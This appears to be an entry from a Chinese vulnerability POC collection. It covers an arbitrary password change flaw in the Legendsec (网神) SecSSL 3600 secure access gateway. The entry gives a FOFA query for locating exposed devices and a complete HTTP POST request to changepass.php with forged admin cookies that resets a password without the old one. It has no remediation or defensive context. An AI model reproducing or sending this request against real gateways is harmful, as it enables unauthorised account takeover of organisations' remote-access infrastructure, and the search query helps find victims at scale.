 # 网神 SecSSL 3600安全接入网关系统 任意密码修改漏洞

## 网络测绘

fofa: app="legendsec-Secssl3600"

## POC / EXP

```
POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"test","subAuthId":"1"}
old_pass=&password=Test123!@&repassword=Test123!@
```